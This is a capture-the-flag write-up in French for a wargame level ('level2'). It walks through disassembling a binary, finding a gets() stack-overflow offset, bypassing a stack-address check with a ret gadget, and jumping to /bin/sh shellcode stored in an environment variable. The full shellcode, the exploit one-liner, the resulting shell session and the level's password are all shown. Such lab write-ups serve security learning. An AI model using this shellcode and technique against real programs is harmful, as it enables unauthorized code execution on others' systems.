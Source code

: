 ## Démarches

Même réflexes que pour les levels précédents :

- Le binaire ./level2 attend quelque chose sur l'entrée standard, qu'il réimprime par la suite avant de quitter.
- `objdump -d level2` :
  - le main appelle une fonction `p` :
    ```
    804853f:	55                   	push   %ebp
    8048540:	89 e5                	mov    %esp,%ebp
    8048542:	83 e4 f0             	and    $0xfffffff0,%esp
    8048545:	e8 8a ff ff ff       	call   80484d4 <p>
    804854a:	c9                   	leave
    804854b:	c3                   	ret
    ```
  - la fonction p comporte les fonctions `fflush`, `gets`, `printf`, `exit`, `puts` et `strdup` :
    ```
    80484d4:	55                   	push   %ebp
    80484d5:	89 e5                	mov    %esp,%ebp
    80484d7:	83 ec 68             	sub    $0x68,%esp
    80484da:	a1 60 98 04 08       	mov    0x8049860,%eax
    80484df:	89 04 24             	mov    %eax,(%esp)
    80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt>
    80484e7:	8d 45 b4             	lea    -0x4c(%ebp),%eax
    80484ea:	89 04 24             	mov    %eax,(%esp)
    80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
    80484f2:	8b 45 04             	mov    0x4(%ebp),%eax
    80484f5:	89 45 f4             	mov    %eax,-0xc(%ebp)
    80484f8:	8b 45 f4             	mov    -0xc(%ebp),%eax
    80484fb:	25 00 00 00 b0       	and    $0xb0000000,%eax
    8048500:	3d 00 00 00 b0       	cmp    $0xb0000000,%eax
    8048505:	75 20                	jne    8048527 <p+0x53>
    8048507:	b8 20 86 04 08       	mov    $0x8048620,%eax
    804850c:	8b 55 f4             	mov    -0xc(%ebp),%edx
    804850f:	89 54 24 04          	mov    %edx,0x4(%esp)
    8048513:	89 04 24             	mov    %eax,(%esp)
    8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
    804851b:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
    8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt>
    8048527:	8d 45 b4             	lea    -0x4c(%ebp),%eax
    804852a:	89 04 24             	mov    %eax,(%esp)
    804852d:	e8 be fe ff ff       	call   80483f0 <puts@plt>
    8048532:	8d 45 b4             	lea    -0x4c(%ebp),%eax
    8048535:	89 04 24             	mov    %eax,(%esp)
    8048538:	e8 a3 fe ff ff       	call   80483e0 <strdup@plt>
    804853d:	c9                   	leave
    804853e:	c3                   	ret
    ```
- Comme au level1, il est possible de faire segfault le programme avec un overflow de `gets` :
  - Avec gdb + peda, on créé un pattern de 100 caractères que l'on passe sur l'entrée standard au lancement du programme :
    `pattern create 100`
    > 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

    `r < <(python -c 'print("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")'`

  - On recherche le pattern :
    `pattern search`
    > EIP+0 found at offset: 80
    > 
    > EBP+0 found at offset: 76

  - On peut vérifier que le buffer ne peut accepter que 76 caractères : 
    `r < <(python -c 'print(76*"A"+"1234")')`
    > EBP: 0x34333231 ('1234')

-  On peut observer avant l'appel du printf une comparaison : le programme vérifie qu'il ne copie pas une adresse de la stack (commençant par *0xb*)
    >    0x08048500 <+44>:	cmp    eax,0xb0000000

- La vérification empêche de faire appel à une adresse située sur la stack, mais on peut sauvegarder un shellcode appelant */bin/sh* dans l'env :
  ```
  export SHELLCODE=`python -c 'print("\x90"*200+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\xe0\xf6\xff\xbf")'`
  ```
- Dans GDB :
  - Récupérer avec gdb l'adresse du retour de p 
    `disass p`

    > 0x0804853e <+106>:	ret

  - Récupérer l'adresse de la var SHELLCODE dans l'env
    `x/s *((char **)environ)`
      > 0xbffff869

- Dans la VM (hors gdb), on passe dans l'entrée standard du programme 80 caractères (76 + 4 pour overflow le buffer), suivi de l'adresse de ret puis l'adresse du shellcode stocké dans l'env.
`(python -c 'print("A"*80+"\x3e\x85\x04\x08"+"\x69\xf8\xff\xbf")'; cat ) | ./level2

```
  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>i���`
  ls
  ls: cannot open directory .: Permission denied
  pwd
  /home/user/level2
  whoami
  level3
  ls -la /home/user/level3
  total 17
  dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
  dr-x--x--x  1 root   root    340 Sep 23  2015 ..
  -rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
  -rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
  -rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
  -rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
  -rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
  cat /home/user/level3/.pass
  492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
  ```




<br>





----
## Ressources
- https://dhavalkapil.com/blogs/Shellcode-Injection/
- https://gist.github.com/lzutao/ca76df0d98cd46e3f7a98f0ac3beed58#background-information
- https://beta.hackndo.com/buffer-overflow/#pratique
- https://payatu.com/understanding-stack-based-buffer-overflow